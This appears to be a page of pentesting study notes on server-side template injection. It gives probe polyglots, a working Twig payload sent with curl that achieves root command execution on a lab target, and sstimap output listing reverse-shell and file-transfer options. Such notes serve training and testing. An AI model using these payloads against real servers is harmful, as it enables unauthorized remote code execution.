 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI

## Information

**Server-Side Template Injection (SSTI)** occurs when an attacker injects code native to the template engine into a web page, which the template engine then executes, granting the attacker code execution on the server.

> _**Template Engines** are used to display dynamically generated content on a web page. They replace the variables inside a template file with actual values and display these values to the client._&#x20;

## Identification

### Manual

Using polyglots to induce errors:

* The error polyglot produces an error message to 44 template engines. However, errors might be caught by the application.
* The non-error polyglots are constructed in such a way that at least one of them does not throw an error, but renders the polyglot modified for all template engines we examined.

```bash
# The error polyglot
<%'${{/#{@}}%>{{
# Non-error polyglots
">[[${{1}}]]
<%=1%>@*#{1}
{##}/*{{.}}*/
```

```
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

<figure><img src="../../../.gitbook/assets/ssti_portswigger_diagram.png" alt=""><figcaption><p>Figure 1: Identifying template engines (<em>image taken from</em> <a href="https://portswigger.net/web-security/server-side-template-injection"><em>here</em></a>).</p></figcaption></figure>

### Automatic

Tools like [TInjA](https://github.com/Hackmanit/TInjA), [SSTImap](https://github.com/vladko312/sstimap), and [j2ee-scan](https://github.com/PortSwigger/j2ee-scan) (Burp Pro) can automatically test for SSTI flaws by injecting combinations of special characters in template expressions (`${{<%[%'"}}%\`). Vulnerability indicators include:

* Thrown errors, revealing the vulnerability and potentially the template engine.
* Absence of the payload in the reflection, or parts of it missing, implying the server processes it differently than regular data.
* **Plaintext Context**: Distinguish from XSS by checking if the server evaluates template expressions.
* **Code Context**: Confirm vulnerability by altering input parameters. For instance, changing `greeting` in `http://vulnerable-website.com/?greeting=data.username` to see if the server's output is dynamic or fixed, like in `greeting=data.username}}hello` returning the username.

## Example

<figure><img src="../../../.gitbook/assets/ssti_twig.png" alt=""><figcaption><p>Figure 2: Trying different SSTI payloads.</p></figcaption></figure>

Based on Figure 1 & 2, we are dealing with either a Twig or Jinja2 template engine. Trying engine-specific payloads, reveals that the former is used (Figure 3).

<figure><img src="../../../.gitbook/assets/ssti_twig_payload.png" alt=""><figcaption><p>Figure 3: Trying a Twig-specific payload.</p></figcaption></figure>

The `_self` variable of Twig can be leveraged to execute a user-defined function and obtain RCE.

{% code overflow="wrap" %}
```bash
$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN"
"http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html>
<SNIP>
<a>
    Who are you?
    <form method='post' action=''>
        <div class="form-group"> 
            <input placeholder="Name" name="name" size=70></input> <button class="btn btn-default" type="submit" name='submit'>Send</button>
       </div> 
    </form>
Hello uid=0(root) gid=0(root) groups=0(root)
Linux serversideattackssstitwig-60784-78bd58b5b-pmvvv 4.19.0-17-cloud-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
serversideattackssstitwig-60784-78bd58b5b-pmvvv
serversideattackssstitwig-60784-78bd58b5b-pmvvv!</a>
<SNIP>
```
{% endcode %}

The above process could be automated using `sstimap`.

```bash
$ ./sstimap.py -u "http://94.237.61.26:36373/" -d name=test

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4

[*] Scanning url: http://94.237.61.26:36373/
[*] Testing if Body parameter 'name' is injectable
<SNIP>
[*] Twig plugin is testing rendering with tag '*'
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig plugin is testing blind injection
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig_v1 plugin is testing rendering with tag '*'
[+] Twig_v1 plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: name
  Engine: Twig_v1
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

## Resources

{% tabs %}
{% tab title="Theory" %}
{% embed url="https://hackmanit.de/en/blog-en/178-template-injection-vulnerabilities-understand-detect-identify" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}
{% endtab %}

{% tab title="Engine-specific payloads" %}
{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
{% endtab %}

{% tab title="SSTI Table" %}
{% embed url="https://cheatsheet.hackmanit.de/template-injection-table/" %}
{% endtab %}
{% endtabs %}
